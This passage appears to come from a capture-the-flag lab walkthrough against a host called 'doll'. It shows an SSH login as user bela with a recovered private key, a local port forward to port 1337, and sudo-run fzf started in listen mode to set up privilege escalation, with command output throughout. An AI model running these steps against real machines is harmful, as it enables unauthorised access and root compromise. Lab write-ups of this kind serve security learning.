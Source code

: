 `netstat -antp`:
```
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 0.0.0.0:1007            0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp        0      0 192.168.56.125:22       192.168.56.118:50530    ESTABLISHED -                   
tcp6       0      0 :::1007                 :::*                    LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -  
```

`exit`

![Attacker](https://custom-icon-badges.demolab.com/badge/Attacker-e57373?logo=kali-linux_white_32&logoColor=white)

`ssh -i ./5f8746267271592fd43ed8a2c03cee11a14f28793f79c0fc4ef8066dac02e017_dir/home/bela/.ssh/id_rsa bela@192.168.56.125 -L 8888:127.0.0.1:1337`:
```
Enter passphrase for key './5f8746267271592fd43ed8a2c03cee11a14f28793f79c0fc4ef8066dac02e017_dir/home/bela/.ssh/id_rsa': ←
Linux doll 5.10.0-21-amd64 #1 SMP Debian 5.10.162-1 (2023-01-21) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Thu Sep 26 11:09:17 2024 from 192.168.56.118
```

![Victim: bela](https://img.shields.io/badge/Victim-bela-64b5f6?logo=linux&logoColor=white)

`sudo /usr/bin/fzf --listen\=1337 &`:
```
[1] 1006
```

`netstat -antp | grep ":1337"`:
```
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
tcp        0      0 127.0.0.1:1337 ←         0.0.0.0:*               LISTEN      -
```

![Attacker](https://custom-icon-badges.demolab.com/badge/Attacker-e57373?logo=kali-linux_white_32&logoColor=white)

